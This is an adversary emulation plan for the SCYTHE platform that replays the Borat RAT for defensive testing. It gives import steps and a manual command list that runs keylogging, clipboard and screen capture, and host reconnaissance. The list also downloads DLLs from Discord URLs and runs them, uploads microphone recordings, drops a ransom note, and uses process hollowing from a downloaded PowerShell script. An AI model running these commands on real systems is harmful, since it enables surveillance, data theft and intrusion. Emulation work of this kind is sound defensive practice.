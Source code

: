 # Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

## Notes on unique functionality
1. This threat downloads two files (Audio.dll and Ransomware.dll) from Discord CDN URLs. They are hosted on a Discord server administered by Randy Pargman of Binary Defense, and are intended to stay available online for the foreseeable future. However, if you wish to host the files yourself, simply grab the copies of Audio.dll and Ransomware.dll from the VFS folder and upload to your own Discord server, then replace the URLs in the downloader steps.
2. The Ransomware.dll file does not actually encrypt any files. Its only purpose is to drop a ransom note that contains the same text as Borat RAT's ransom note, on the user's desktop.
3. The Audio.dll file is written in C# and it very closely matches the functionality of the real Borat RAT Audio.dll microphone recorder, except that it doesn't communicate over the Borat RAT packed message C2 channel. You can find the source code in the linked Github project (as a submodule).

## Manual Adversary Emulation with SCYTHE
Start a SCYTHE campaign and manually execute the below commands:
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
keylogger --current
keylogger --stop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/963125834342862878/AudioRecorder.dll" --dest %USERPROFILE%\Audio.dll
upsh --cmd $assembly = [Reflection.Assembly]::LoadFile("$env:USERPROFILE\Audio.dll"); $instance = New-Object AudioRecorder.AudioRecorer; $result =$instance.AudioInit(10);
delay --time 10
uploader --remotepath C:\Users\Public\Document\micaudio.log.txt
uploader --remotepath C:\Users\Public\Document\micaudio.wav
run powershell.exe del C:\Users\Public\Document\micaudio.log.txt
run powershell.exe del C:\Users\Public\Document\micaudio.wav
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/960944365335904286/Ransomware.dll" --dest %USERPROFILE%/Desktop/Ransomware.dll
run cmd /c cd %USERPROFILE%\Desktop & rundll32 Ransomware.dll,DropNote
run powershell del $env:USERPROFILE\Desktop\Ransomware.dll -Force -ErrorAction Ignore
downloader --src "https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Start-Hollow.ps1" --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
run powershell.exe del $env:userprofile/Start-Hollow.ps1
controller --shutdown
```
